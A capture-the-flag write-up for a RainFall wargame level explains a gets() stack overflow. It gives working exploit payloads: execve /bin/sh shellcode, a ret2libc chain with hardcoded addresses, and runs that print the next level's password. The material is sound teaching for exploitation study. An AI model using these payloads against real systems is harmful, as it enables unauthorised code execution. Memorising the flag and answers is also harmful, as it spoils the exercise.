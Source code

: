 # Level 1

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void p(void)
{
    fflush(stdout);

    int buffer[16];
    gets(buffer);

    int tmp = buffer[20];
    if ((tmp & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", tmp);
        exit(1);
    }
    puts(buffer);
    strdup(buffer);
}

int main(void)
{
    p();
}
```

Let's focus on the `p` function. It reads input using the gets function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read.

In this case, the program's stack is allocated 104 bytes:
```
# Allocating 104 bytes on the stack
0x080484d7 <+3>:     sub    $0x68,%esp

# Calculate the address of ebp - 76, since we allocated 104 bytes for the stack and since our next variable start at ebp - 12, our buffer will therefore be 64 bytes (here buf is an int array, so 64 bytes = 16 * 4 bytes)
0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax

# Move 4 bytes above ebp aka the return address into eax
0x080484f2 <+30>:    mov    0x4(%ebp),%eax

# Moving the return address into ebp - 12 which is our next variable
0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
```

Although we allocated 104 bytes on the stack, our buffer only starts at ebp - 76, which means that we only have to write 76 bytes before overflowing the stack. Furthermore, we need to write 4 bytes to reach the return address so 80 bytes in total (as shown in the assembly code above). Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `p` function.

There's different ways to solve this challenge, we'll see two of them. First the intended way (I assume) with a ret2shellcode and then the ret2libc way.

### Ret2Shellcode
We opt for a shellcode designed to spawn a shell. This shellcode, taken from the [Exploit Database](https://www.exploit-db.com/exploits/41757), is compact and effective for our purpose:

`\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

To redirect the execution, after the buffer overflow, we need an address. We use `ltrace` to find that `strdup` returns to `0x0804a008`.

```bash
$ ltrace ./level2
[...]
strdup("") = 0x0804a008
```

Since `strdup` allocates the buffer that was read by `gets`, the address of the shellcode will be stored at `0x0804a008` (The address that was returned by strdup).

So our payload will be:
```
shellcode + padding + address of shellcode
Alternatively, you could place the padding before the shellcode, using NOPs.

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\xa0\x04\x08"

The padding is 80 - 21 because the shellcode is 21 bytes long.
```

Alright let's try it:
```bash
level2@RainFall:~$ (python -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\xa0\x04\x08")' && cat) | ./level2
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Perfect, let's move to the other solution.

### Ret2Libc
Ret2Libc (Return-to-Libc) is an exploit technique that doesn't require injecting shellcode but instead redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"

The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.
```

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xb7e6b060  __libc_system
0xb7e6b060  system

# Exit
(gdb) info functions exit
0x080483d0  _exit
0x080483d0  _exit@plt

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

However we'll need to include an extra step because of the following lines:
```c
if ((tmp & 0xb0000000) == 0xb0000000)
{
    printf("(%p)\n", tmp);
    exit(1);
}
```

Ealier, I mentionned that the return address was put into our next variable, which is `tmp`. So the `&` operator, along with the `0xb0000000` mask is used to check if our return address most significant byte is equal to `0xb`. If it is, the program will exit. So we need to find an address that doesn't start with `0xb`. 

Given that the address of the `system` function begins with `0xb`, it cannot be directly used. So we'll have to include the address of a `ret` instruction in our payload. When the program attempts to return to this address, the `ret` instruction pops the address of `system` into the EIP register, causing the program to jump to `system`.


Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xd0\x83\x04\x08" + "\x58\xcc\xf8\xb7"
```

Let's run it:
```bash
level2@RainFall:~$ (python -c 'print("\x90"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xd0\x83\x04\x08" + "\x58\xcc\xf8\xb7")' && cat) | ./level2
����������������������������������������������������������������>������������>`��X���
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

We are now level3! Let's move on to the next level.
